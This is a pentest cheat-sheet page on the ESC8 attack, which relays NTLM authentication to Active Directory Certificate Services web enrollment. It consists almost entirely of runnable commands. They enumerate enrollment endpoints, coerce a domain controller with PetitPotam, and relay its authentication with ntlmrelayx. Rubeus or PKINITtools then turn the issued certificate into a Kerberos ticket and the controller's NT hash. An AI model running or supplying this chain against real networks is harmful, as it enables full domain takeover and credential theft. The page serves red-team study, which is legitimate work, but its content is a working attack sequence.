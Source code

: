 # ESC8: NTLM Relay to AD CS HTTP Endpoints




## Enumerate

Discover CES endpoints with certutil:

```
Cmd > certutil.exe -enrollmentServerURL -config CA01.megacorp.local\CA01
```

Discover CES endpoints with PowerShell:

```powershell
PS > Get-CertificationAuthority | select name,enroll* | fl
```




## Exploit



### ntlmrelayx-adcs-attack

* [https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/](https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/)
* [https://github.com/SecureAuthCorp/impacket/pull/1101](https://github.com/SecureAuthCorp/impacket/pull/1101)
* [https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack](https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack)

```
$ sudo ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp -smb2support --adcs [--template VulnTemplate]
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
PS > .\Rubeus.exe asktgt /user:DC1$ /domain:megacorp.local /dc:DC1.megacorp.local /certificate:<BASE64_PFX_CERT> /ptt
```



### PKINITtools

* [https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)
* [https://github.com/dirkjanm/PKINITtools](https://github.com/dirkjanm/PKINITtools)

Backup original `httpattack.py` and copy one from the toolkit with a modified domain name and a template if needed (`DomainController` is by default):

```
$ sudo cp /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py.bak
$ subl ntlmrelayx/httpattack.py
$ sudo cp ntlmrelayx/httpattack.py /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py
```

Perform the relay attack, request the TGT via PKINIT and get the NT hash based on U2U Kerberos extension:

```
$ sudo ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp -smb2support
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
$ python3 gettgtpkinit.py megacorp.local/'DC1$' -cert-pem cert.pem -key-pem privatekey.pem dc1.ccache
$ KRB5CCNAME=dc1.ccache python3 getnthash.py megacorp.local/'DC1$' -key 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff
```

Revert the original `httpattack.py`:

```
$ sudo mv /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py.bak /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py
```



### ADCSPwn

* [https://github.com/bats3c/ADCSPwn](https://github.com/bats3c/ADCSPwn)
